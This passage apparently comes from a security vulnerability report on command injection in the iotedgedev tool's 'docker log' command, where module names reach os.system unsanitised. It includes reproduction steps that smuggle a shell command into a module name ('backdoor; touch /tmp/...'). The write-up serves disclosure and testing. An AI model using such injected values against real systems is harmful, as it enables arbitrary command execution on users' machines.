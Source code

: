             B --> C{DeploymentManifest.get_all_modules()};
            C --> D[Deployment Manifest (deployment.json)];
            D -- Module Names --> E{Loop through module names};
            E -- module_name --> F{command = LOGS_CMD.format(module_name)};
            F --> G{os.system(command)};
            G --> H[System Command Execution];
        ```
    - Step-by-step analysis:
        1. The `handle_logs_cmd` function is called when `iotedgedev docker log --show` or `iotedgedev docker log --save` is executed.
        2. It retrieves module names from the deployment manifest.
        3. It iterates through each module name.
        4. In the `show` branch, it formats the `LOGS_CMD` environment variable with the current `module` name.
        5. It uses `os.system(command)` to execute the formatted command. `os.system` executes the command in a subshell, making it vulnerable to command injection if `module` or `LOGS_CMD` contains malicious shell commands.
        6. In the `save` branch, it uses `utility.exe_proc` which uses `subprocess.Popen` but still passes the command with shell=True for redirection `>`. While the docker command itself is passed as arguments, the redirection part could still be potentially manipulated if the module name is crafted to interfere with shell redirection syntax.

- **Security Test Case:**
    - **Test Case 1: Module Name Injection (`docker log --show`)**
        - Step 1: Create a new IoT Edge solution (e.g., `iotedgedev new test_exploit_module`).
        - Step 2: Navigate to the `modules` directory (`cd test_exploit_module/modules`).
        - Step 3: Create a file named `pwned_module.json` with the following content:
        ```json
        {
            "image": {
                "repository": "dummyrepo/pwned_module",
                "tag": {
                    "version": "0.0.1",
                    "platforms": {
                        "amd64": "Dockerfile.amd64"
                    }
                },
                "contextPath": "."
            }
        }
        ```
        - Step 4: Rename the module directory `filtermodule` to `backdoor; touch /tmp/pwned_docker_log_show_module` to create a malicious module name: `mv modules/filtermodule modules/'backdoor; touch /tmp/pwned_docker_log_show_module'`.
        - Step 5: Modify `deployment.template.json` to reflect the new module directory name. Change the module name in the `modules` section to `"backdoor; touch /tmp/pwned_docker_log_show_module"` and update the image placeholder accordingly.
        ```json
        "backdoor; touch /tmp/pwned_docker_log_show_module": {
            "version": "1.0",
            "type": "docker",
            "status": "running",
            "restartPolicy": "always",
            "settings": {
                "image": "${MODULES.backdoor}",
                "createOptions": {}
            }
        },
        ```
        - Step 6: Execute the command `iotedgedev docker log --show`.
        - Step 7: Check if the file `/tmp/pwned_docker_log_show_module` exists. If it exists, the command injection was successful. You can check by running `ls /tmp/pwned_docker_log_show_module`.
